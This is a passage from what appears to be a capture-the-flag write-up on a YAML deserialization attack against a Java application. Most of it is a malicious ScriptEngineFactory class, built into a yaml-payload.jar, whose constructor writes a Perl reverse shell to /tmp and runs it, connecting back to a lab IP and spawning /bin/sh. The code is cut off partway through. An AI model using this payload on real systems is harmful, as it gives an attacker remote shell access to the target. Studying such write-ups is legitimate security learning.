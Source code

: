 After a bit of research, I located [this repository]() which has a decent example of a serialization attack. Cloning the repository and creating the following setup:
 
```bash
$ tree
.
├── README.md
├── src
│   ├── artsploit
│   │   ├── AwesomeScriptEngineFactory.class
│   │   └── AwesomeScriptEngineFactory.java
│   └── META-INF
│       └── services
│           └── javax.script.ScriptEngineFactory
└── yaml-payload.jar
```

I was able to craft the following Java code to execute a Perl reverse shell

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;
import java.net.*;
import java.io.*;
import java.util.concurrent.*;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("/tmp/rshell82.pl"));
            writer.write("use Socket;$i=\"10.10.14.204\";$p=82;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};");
            writer.close();

            Runtime.getRuntime().exec("perl /tmp/rshell82.pl");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }
```